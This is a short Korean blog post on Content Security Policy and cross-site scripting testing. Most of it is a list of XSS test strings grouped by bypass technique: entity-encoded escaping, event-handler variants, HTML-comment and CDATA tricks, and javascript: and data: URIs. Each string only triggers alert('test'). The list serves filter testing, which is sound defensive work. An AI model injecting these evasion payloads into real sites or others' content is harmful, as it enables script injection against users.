 ```yaml
---
layout: post
title:  "CSP와 XSS테스트 코드"
summary: "사이트 간 스크립팅, 크로스 사이트 스크립팅"
author: yoo94
date: '2023-04-01 17:35:23 +0530'
category: websecurity
tags: websecurity
keywords: websecurity
thumbnail: https://i.namu.wiki/i/kq9NDC2Dsxbpqwn1L4dDwjo4fH7A9Rb76kbTrqpRirwq1VjPHDyr0Rp_P_Y0MhxFadKjqT5yBClhRDIWxapZNIdIrW8EkbT6KVv90O9wZqZ0ouYllY8gkIa39etQZDdg1d2fR6odJZ7_hYgF4FaLXg.webp
permalink: blog/XSS/
---
```


## CSP 콘텐츠 보안정책

<img src="/blog/postImg/Pasted image 20240205203449.png" alt="Pasted image 20240205203449.png" style="max-width:100%;">
<img src="/blog/postImg/Pasted image 20240205203510.png" alt="Pasted image 20240205203510.png" style="max-width:100%;">


## xss테스트

테스트 방법

<script>alert('test');</script>
<img src=x onerror=alert('test')>
<a href="javascript:alert('test')">Click me</a>

--------------------------------------------------------

이스케이프(escaping) 우회 시도
<scr\ipt>alert('test');</scr\ipt>
<img src=x onerror=ale&#x72t('test')>
<a href="jav&#x61script:alert('test')">Click me</a>

--------------------------------------------------------

이벤트 핸들러 우회 시도
<img src=x onerror=alert('test')>
<img src=x onerror="alert('test')">
<img src=x onerror=alert\('test'\)>

--------------------------------------------------------

HTML 주석을 이용한 우회 시도
<!--<img src=x onerror=alert('test')>-->
<!--><img src=x onerror=alert('test')><!-->
<![CDATA[<script>alert('test');</script>]]>

--------------------------------------------------------

스크립트 블록을 이용한 우회 시도:
<img src=x onerror="javascript:alert('test')">
<img src=x onerror="data:text/html,<script>alert('test');</script>">
